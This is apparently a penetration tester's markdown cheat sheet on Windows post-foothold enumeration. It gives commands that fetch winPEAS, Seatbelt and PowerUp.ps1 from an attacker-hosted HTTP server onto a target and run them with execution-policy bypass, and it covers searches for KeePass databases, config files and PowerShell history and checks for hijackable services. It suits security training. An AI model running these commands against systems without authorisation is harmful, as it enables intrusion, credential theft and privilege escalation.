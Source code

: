 # Windows Enumeration
Having gained a foothold on a Windows machine by whatever mechanism the following items are important steps for us to gain situational awareness, with each item potentially proving critical to a successful effort at privilege escalation or lateral movement:

## Automatic Enumeration

### winPEAS
Tool for the automatic discovery of interesting files, permissions misconfigurations etc.

In Kali:
```bash
cp /usr/share/peass/winpeas/winPEASx64.exe .
python3 -m http.server 80
```
On the target machine:
```powershell
iwr -uri http://192.168.118.2/winPEASx64.exe -Outfile winPEAS.exe
.\winPEAS.exe
```
### Seatbelt
Similar to `winPEAS` but different? Search for `compiled seatbelt github download`, and grab the `Seatbelt.exe` file. Transfer to target in the usual fashion:
```bash
python3 -m http.server 80
```
And run on the target:
```powershell
iwr -uri http://192.168.118.2/Seatbelt.exe -Outfile Seatbelt.exe
.\Seatbelt.exe -group=all
```
### PowerUp.ps1
Explicitly a Windows enumeration and privesc tool. Nb. This tool (like most) should not be trusted implicitly always and if it offers no/insufficient usable information then manual techniques should be employed.
```bash
cp /usr/share/windows-resources/powersploit/Privesc/PowerUp.ps1 .
python3 -m http.server 80
```
```powershell
iwr -uri http://<our IP>/PowerUp.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
```
To find Binaries that run with privilege that can be modified:
```powershell
Get-ModifiableServiceFile
```
To find exploitable unquoted service paths:
```powershell
Get-UnquotedService
```

Look upon our exploitable shit ye mighty and despair!

## Manual Enumeration

### Username and hostname
```cmd
whoami
```
### Group memberships of the current user
```cmd
whoami /groups
```
### Our current privilege
```cmd
whoami /priv
```
### Existing users and groups
```powershell
Get-LocalUser
```
```powershell
Get-LocalGroup
```
```powershell
Get-LocalGroupMember adminteam
```
```powershell
Get-LocalGroupMember Administrators
```
CMD command for miscllelaneous info on a particular user:
```cmd
net user <username>
```
### Operating system, version and architecture
```powershell
systeminfo
```
### Network information
To list all network interfaces:
```powershell
ipconfig /all
```
To display the routing table and potentially enumerate links to other systems or networks that haven't yet been enumerated:
```powershell
route print
```
To enumerate the active network connections on a Windows system (with no DNS resolution):
```powershell
netstat -ano
```
### Installed applications
To enumerate all 32 bit applications installed on the machine:
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
and for the 64 bit applications:
```powershell
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname
```
Nb. this is not necessarily a complete list, never forget to check the `C:\ProgramFiles*` directories, as well as the `C:\tools` and `Downloads` paths.
### Running processes
```powershell
Get-Process
```
To find the binary running that process:
```powershell
Get-Process | Select-Object Path
```
### Finding Critical Files
KeePass files:
```powershell
Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
```
XAMPP Web Server config:
```powershell
Get-ChildItem -Path C:\xampp -Include *.txt,*.ini -File -Recurse -ErrorAction SilentlyContinue
```
Misc. Data File Discovery:
```powershell
Get-ChildItem -Path C:\Users\ -Include *.txt,*.pdf,*.xls,*.xlsx,*.doc,*.docx,*.ini -File -Recurse -ErrorAction SilentlyContinue
```

### Impersonation
If we have a GUI session then we can run a new session as a different user with:
```powershell
runas /user:admin cmd
```

### Command History
```powershell
Get-History
```
```powershell
(Get-PSReadlineOption).HistorySavePath | ForEach-Object {cat $_}
```

### Installed Windows Services
Necessary to run this in an RDP session since `Get-CimInstance` (and `Get-Service` for that matter) will produce permission denied errors in a shell or WinRM session:
```powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}
```
Get starting mode of a win32 service, in the event we can't restart it and this value is set to `Auto` then a system reboot could let us hijack the service having previously edited the executable:
```powershell
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like '<target service>'}
```

### icacls
Enumerate which users/groups have what privileges on a binary (nb. beneficial to use `icacls` over `Get-ACL` since the former will work on `cmd` as well!):
```powershell
icacls "C:\path\to\interesting.exe"
```
Mask to permissions mapping (nb. A preceding 'I' indicates the access right is inherited):

- F 	Full access
- M 	Modify access
- RX 	Read and execute access
- R 	Read-only access
- W 	Write-only access

### Unquoted Service Paths
Again, this will run in `cmd` or `Powershell`:
```cmd
wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
```